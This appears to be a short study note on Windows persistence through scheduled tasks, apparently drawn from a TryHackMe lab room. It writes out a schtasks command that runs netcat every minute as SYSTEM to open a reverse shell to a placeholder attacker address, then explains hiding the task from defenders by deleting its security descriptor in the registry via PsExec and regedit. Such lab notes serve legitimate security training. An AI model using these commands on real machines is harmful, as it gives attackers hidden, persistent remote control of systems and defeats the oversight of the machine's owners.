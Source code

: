 # Windows Persistence - Abusing Scheduled Tasks

## Task scheduler

Create a scheduled task:
```powershell
 schtasks /create /sc minute /mo 1 /tn <taskname> /tr "c:\tools\nc64 -e cmd.exe $attacker_ip $port" /ru SYSTEM
```
Make it invisible by registery editing, using similar tool as [[Sysinternals-Psexec]]. The security descriptors of all scheduled tasks are stored in:
- `HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Schedule\TaskCache\Tree\`
To hide the task delete the `SD` value 

```powershell
PsExec64.exe -s -i regedit
```

## References

[THM Windows Persistence Room](https://tryhackme.com/room/windowslocalpersistence)